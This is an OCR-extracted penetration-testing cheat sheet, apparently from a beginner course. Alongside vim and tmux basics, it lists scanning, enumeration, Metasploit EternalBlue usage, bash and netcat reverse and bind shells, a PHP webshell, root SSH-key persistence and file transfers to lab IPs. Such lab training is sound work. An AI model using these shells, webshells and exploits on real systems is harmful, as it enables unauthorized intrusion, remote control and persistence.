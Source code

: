 Basic Tools
Command Description
General
sudo openvpn user.ovpn Connect to VPN
ifconfig/ip a Show our IP address
netstat -rn Show networks accessible via the VPN
ssh user@10.10.10.10 SSH to a remote server
ftp 10.129.42.253 FTP to a remote server
tmux
tmux Start tmux
ctrl+b tmux: default prefix
prefix c tmux: new window
prefix 1 tmux: switch to window (1)
prefix shift+% tmux: split pane vertically
prefix shift+" tmux: split pane horizontally
GETTING STARTED
CHEAT SHEET
Command Description
prefix -> tmux: switch to the right pane
Vim
vim file vim: open file with vim
esc+i vim: enter insert mode
esc vim: back to normal mode
x vim: Cut character
dw vim: Cut word
dd vim: Cut full line
yw vim: Copy word
yy vim: Copy full line
p vim: Paste
:1 vim: Go to line number 1.
:w vim: Write the file 'i.e. save'
:q vim: Quit
:q! vim: Quit without saving
:wq vim: Write and quit
Pentesting
Command Description
Service Scanning
Command Description
nmap 10.129.42.253 Run nmap on an IP
nmap -sV -sC -p- 10.129.42.253 Run an nmap script scan on an
IP
locate scripts/citrix List various available nmap
scripts
nmap --script smb-os-discovery.nse -p445
10.10.10.40 Run an nmap script on an IP
netcat 10.10.10.10 22 Grab banner of an open port
smbclient -N -L \\\\10.129.42.253 List SMB Shares
smbclient \\\\10.129.42.253\\users Connect to an SMB share
snmpwalk -v 2c -c public 10.129.42.253
1.3.6.1.2.1.1.5.0 Scan SNMP on an IP
onesixtyone -c dict.txt 10.129.42.254 Brute force SNMP secret string
Web Enumeration
gobuster dir -u http://10.10.10.121/ -w
/usr/share/dirb/wordlists/common.txt Run a directory scan on a
website
gobuster dns -d inlanefreight.com -w
/usr/share/SecLists/Discovery/DNS/namelist.txt Run a sub-domain scan on a
website
curl -IL https://www.inlanefreight.com Grab website banner
whatweb 10.10.10.121 List details about the
webserver/certificates
curl 10.10.10.121/robots.txt List potential directories in
robots.txt
ctrl+U View page source (in Firefox)
Public Exploits
Command Description
searchsploit openssh 7.2 Search for public exploits for a
web application
msfconsole MSF: Start the Metasploit
Framework
search exploit eternalblue MSF: Search for public exploits
in MSF
use exploit/windows/smb/ms17_010_psexec MSF: Start using an MSF
module
show options MSF: Show required options for
an MSF module
set RHOSTS 10.10.10.40 MSF: Set a value for an MSF
module option
check MSF: Test if the target server is
vulnerable
exploit MSF: Run the exploit on the
target server is vulnerable
Using Shells
nc -lvnp 1234 Start a nc listener on a local port
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234
0>&1' Send a reverse shell from the
remote server
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
2>&1|nc 10.10.10.10 1234 >/tmp/f Another command to send a
reverse shell from the remote
server
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -
i 2>&1|nc -lvp 1234 >/tmp/f Start a bind shell on the remote
server
nc 10.10.10.1 1234 Connect to a bind shell started
on the remote server
Command Description
python -c 'import pty; pty.spawn("/bin/bash")' Upgrade shell TTY (1)
ctrl+z then stty raw -echo then fg then enter
twice
Upgrade shell TTY (2)
echo "<?php system(\$_GET['cmd']);?>" >
/var/www/html/shell.php Create a webshell php file
curl http://SERVER_IP:PORT/shell.php?cmd=id Execute a command on an
uploaded webshell
Privilege Escalation
./linpeas.sh Run linpeas script to enumerate
remote server
sudo -l List available sudo privileges
sudo -u user /bin/echo Hello World! Run a command with sudo
sudo su - Switch to root user (if we have
access to sudo su)
sudo su user - Switch to a user (if we have
access to sudo su)
ssh-keygen -f key Create a new SSH key
echo "ssh-rsa AAAAB...SNIP...M= user@parrot"
>> /root/.ssh/authorized_keys Add the generated public key to
the user
ssh root@10.10.10.10 -i key SSH to the server with the
generated private key
Transferring Files
python3 -m http.server 8000 Start a local webserver
wget http://10.10.14.1:8000/linpeas.sh Download a file on the remote
server from our local machine
Command Description
curl http://10.10.14.1:8000/linenum.sh -o
linenum.sh Download a file on the remote
server from our local machine
scp linenum.sh user@remotehost:/tmp/linenum.sh Transfer a file to the remote
server with scp (requires SSH
access)
base64 shell -w 0 Convert a file to base64
echo f0VMR...SNIO...InmDwU | base64 -d > shell Convert a file from base64 back
to its orig
md5sum shell Check the file's md5sum to ensure
it converted correctly
